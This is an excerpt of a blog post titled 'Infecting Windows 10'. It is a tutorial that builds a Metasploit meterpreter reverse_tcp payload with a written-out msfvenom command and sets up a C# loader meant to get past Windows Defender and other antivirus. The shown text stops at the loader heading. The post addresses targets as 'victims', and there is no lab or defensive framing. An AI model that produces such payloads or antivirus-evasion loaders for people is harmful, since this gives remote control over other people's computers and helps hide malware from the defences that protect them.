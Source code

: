 ```yaml
---
layout: post
title:  "Infecting Windows 10"
date:   2023-06-30 21:21:21 +0530
tags: [csharp,kali-linux,virus]
---
```


**Introduction to Infecting Windows 10**

For my first post that has actual content, I am going to show you guys how to create a payload in Metasploit on Kali Linux and then create a loader for it in C#!

**Step 1: Creating the Payload**

First you need to hop on Kali and open a terminal. Then we are going to use a command to create a payload for us to use. Type the following in your terminal:
```bash
$ sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=$HOST LPORT=$PORT -f exe > payload.exe
```
Okay so, what does the do? This command creates a compiled binary that contains the payload `windows/meterpreter/reverse_tcp` which is a payload that allows us to start a Metasploit session once they run the program.

<i>HOST</i> refers to the ip of the attacker (127.0.0.1)  
<i>PORT</i> refers to the port that you will listen to on your attacking machine (4444)

You now have your payload and it's time to infect your victim! Except, oh wait! Windows Defender and every antivirus every made will detect this because it's been exposed to the public for years. So, how do we hide it and make it undetectable?

**Step 2: Creating the Loader**